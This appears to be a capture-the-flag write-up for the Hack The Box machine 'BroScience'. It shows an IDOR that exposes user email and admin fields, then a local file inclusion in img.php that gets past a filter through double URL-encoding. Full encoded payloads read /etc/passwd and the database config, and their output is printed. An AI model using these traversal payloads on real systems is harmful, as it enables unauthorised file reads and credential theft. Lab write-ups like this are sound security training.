 ### IDOR

While browsing the page we were able to identify an IDOR that exposes  
- E-Mail Address
- IS Activated
- IS Admin

```http
# Just change the ID
https://broscience.htb/user.php?id=1
```

### LFI

While checking [https://broscience.htb/includes/](https://broscience.htb/includes/) we discover a php file named **img.php**.
Opening that page will tell us  

```bash
Error: Missing 'path' parameter.
```

Basic **LFI** will fail and tell us **Error: Attack detected.**  
We have to double URL Encode it so that it will work  

```http
# Failing
https://broscience.htb/includes/img.php?path=../../../../etc/passwd
```

#### /etc/passwd

```http
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

```bash
# We identified "bill" as user and it seems that postgresql is installed
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

#### /var/www/html/includes/db_connect.php
```html
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%36%34%25%36%32%25%35%66%25%36%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "CENSORED";
$db_pass = "CENSORED";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
```